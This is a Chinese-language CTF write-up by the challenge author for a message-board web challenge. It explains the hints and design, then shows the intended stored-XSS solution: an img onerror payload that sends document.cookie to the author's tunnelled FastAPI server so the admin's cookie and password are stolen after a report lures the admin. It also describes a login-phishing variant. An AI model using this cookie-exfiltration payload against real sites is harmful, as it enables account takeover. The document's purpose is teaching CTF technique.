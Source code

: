# 免费的留言板

- 出题人: pyy

- 验题人: pyy

## 题目描述

免费提示:

- 咦, 这个题的中文名是不是翻译错了?

- ezSQL的flag仿佛名显玄机

  36分提示:

- 这个留言板怎么还可以发图片和按钮的?

- 登录界面好像还藏了一个管理员界面的按钮......藏哪了?

- 一切还是要等拿到管理员账户和密码后再说.......

## 出题思路

Java课要写个留言板, 于是那时候整了一个, 然后玩的时候发现可以搞一个经典的xss盗号。后来弄弄就有了这道题。(虽然前端也重写了, 后端也重写了, 还写了个amis前端热部署, 总之就是全重写了一遍) 实际上这题的前端是从数据库里动态生成的(amis一段json就能搞定, 至于效率, 管他呢), 所以原本是有另外一个钓鱼解法的(把前端页面的登录api改成自己的服务器, 这样就可以拿到所有登陆的人的用户名和密码), 但是怕有人瞎改(不瞎改就怪了, 谁知道这里面该写什么), 所以加了个复杂密码的验证, 相当于ban掉了。

与Counterattack联动环节: 有一个人发了贪吃蛇的按钮, 进去之后点左上角的`回到首页`, 会有一个和比赛几乎相同的登录页面。在这里输入正确的密码则会被钓鱼, 然后服务器会登录你的账户提交-100分的flag。

## 解法

### 预期解法

(说起来, 你们看到别人在留言板里发图片和按钮而没见着传图片啥的, 不觉得奇怪吗?)

既然有人发按钮了, 那一定是有xss。(然后拿到管理员cookie就可以了)

先试着搞一波简单的script标签:

`<script>alert(1)<\script>`

![image-20220507080003099](readme.assets/image-20220507080003099.png)

![image-20220507080240490](readme.assets/image-20220507080240490.png)

发现没有显示出来但f12里有(说明没有被套标签), 但同时也没有弹框。(由于这个script是后来生成的而不是一开始就有的, 所以不会被执行。就像你f12往里加script标签一样。不同的是, 如果你加的是`<img src='' onerror=alert(1)>`, onerror里的代码就会被执行。)

```python
import fastapi
import uvicorn
app=fastapi.FastAPI()
if __name__=="__main__":
  uvicorn.run("pyy:app",host="0.0.0.0",port=60080)
```

fastapi起一个服务器, 反正只需要log功能所以啥也不用写。之后再开一个内网穿透, 这样cookie可以打过来。

然后用onerror写一个img标签进去, 然后src为我们的网站+get传cookie。

`<img src="" onerror='new Image().src="http://2pcohv0e.dnat.tech/?"+document.cookie'>`

![image-20220507084852129](readme.assets/image-20220507084852129.png)

收到了, 虽然里面有robot题的cookie, 接下来就是钓管理员上钩。(我钓我自己还有不成功的吗?)

首先交个举报, 说这条留言有问题。这样管理员就会来看这条留言。然后我们就拿到了cookie。

![image-20220507085131525](readme.assets/image-20220507085131525.png)

![image-20220507085215577](readme.assets/image-20220507085215577.png)

这样就上钩了。

![image-20220507085247788](readme.assets/image-20220507085247788.png)

然后拿着密码去登录:

![image-20220507085330814](readme.assets/image-20220507085330814.png)

发现多出来一个按钮, 那就进去看看吧。

![image-20220507085319302](readme.assets/image-20220507085319302.png)
